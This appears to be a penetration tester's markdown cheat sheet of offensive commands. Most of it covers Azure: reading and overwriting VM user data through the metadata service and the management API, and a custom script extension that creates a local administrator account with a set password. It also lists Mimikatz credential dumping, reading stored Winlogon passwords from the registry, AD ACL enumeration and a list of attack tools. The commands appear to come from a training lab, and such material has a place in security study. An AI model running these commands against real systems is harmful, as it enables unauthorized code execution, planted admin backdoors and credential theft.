 **AZURE**
- **Check UserData**
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```
- **Modify UserData**
```
## It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!

$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```
- **Check VM Extensions**
```
Get-AzVMExtension -ResourceGroupName Research -VMName infradminsrv
```
- **Set VM Extensions**
```
## Following permissions are required to create a custom script extension and read the output: "Microsoft.Compute/virtualMachines/extensions/write" and "Microsoft.Compute/virtualMachines/extensions/read"

Set-AzVMExtension -ResourceGroupName Research -VMName infradminsrv -ExtensionName ExecCmd -Location germanywestcentral -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users student87 Stud87Password@123 /add /Y; net localgroup administrators student87 /add /Y"}'
```


**Random**
```
Get-AzRoleAssignment | select scope,objectid,DisplayName,objecttype,RoleDefinitionName,RoleDefinitionId | ft

xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

script -qc /bin/bash /dev/null
```
**Python3 VENV**
```
python3 -m venv /path/of/venv

source /path/to/venv/bin/activate
```
**Hide Error in PowerShell**
```
$ErrorActionPreference= 'silentlycontinue'
```
**Filtering Powershell objects**
```
Get-UserProperty -Properties logoncount | Where logoncount -ne 0

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} 
```
**Creds**
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword"
Invoke-Mimikatz -DumpCreds/-DumpCerts 
```
**Service Ticket Combos - https://adsecurity.org/?p=2011**

**DC Time Sync**
```
proxychains net time set -S 172.16.3.5
```

**Expand Property**
```
(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id 
```

**SnapLabs Firefox Copy-Paste Support**
```
about:config -> dom.events.testing.asyncClipboard
```

**Kali-Additional-Tools**
Tools which I clone in a new Kali image
```
cd /opt;for i in \`ls\`;do cd $i;pwd;sudo git pull;cd -;done
ADTools/
binaryninja
ghidra_9.1.2_PUBLIC
Ghostpack-CompiledBinaries
GitDorker
GitTools
impacket
Mobile-Security-Framework-MobSF
ngrok
privilege-escalation-awesome-scripts-suite
rengine
SprayingToolkit
starkiller
ysoserial
XSStrike
kerbrute
```
